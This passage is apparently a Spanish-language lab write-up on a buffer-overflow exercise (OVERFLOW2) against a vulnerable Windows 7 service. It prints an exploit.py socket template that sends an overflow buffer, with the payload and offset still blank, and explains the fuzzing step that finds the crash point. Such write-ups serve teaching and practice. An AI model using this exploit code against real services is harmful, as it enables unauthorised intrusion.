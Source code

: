 exploit.py

    import socket

    ip = "IP"
    port = 1337

    prefix = "OVERFLOW2 "
    offset = 0
    overflow = "A" * offset
    retn = ""
    padding = ""
    payload = ""
    postfix = ""

    buffer = prefix + overflow + retn + padding + payload + postfix

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
    except:
    print("Could not connect.")

No me detendré a explicar cómo funciona cada uno de ellos, se entiende que posees un entendimiento básico de Python. Solo debes modificar la variable ip por la IP de la máquina donde esté corriendo el Windows 7. No solo eso, como ya se explicó, el room contiene 10 ejercicios, y para cambiar entre ellos será necesario modificar la variable *prefix* por el número de ejercicio del que se trate: como vamos a resolver el ejercicio 2, ponemos **OVERFLOW2**.

Resolveremos el ejercicio dos dado que casi todos los Writeups que hay por ahí resuelven el uno, y como ese lo resolví sin tomar evidencias, por eso mejor iniciamos con este.

# 1. Fuzzear el programa
Lo primero que debemos hacer es realizar un fuzzing en el programa víctima. Se envía una serie de cadenas de diferente tamaño (en tantos de 100) hasta que este crashee; lo cual nos indica que el programa sufrió un desbordamiento del buffer. Recordemos que hacemos esto para saber en qué momento exacto sobreescribimos el EIP.

Ejecutamos el fuzzer:

    python3 fuzzer.py

![6]

Comprobamos que esté funcionando en la máquina víctima, donde deberemos estar recibiendo los datos.

![7]

Va a llegar un punto en el que el script ya no pueda enviar más información, momento en el que el programa ha crasheado y entonces podemos tener un aproximado de cuántos caracteres se requieren para el desbordamiento.
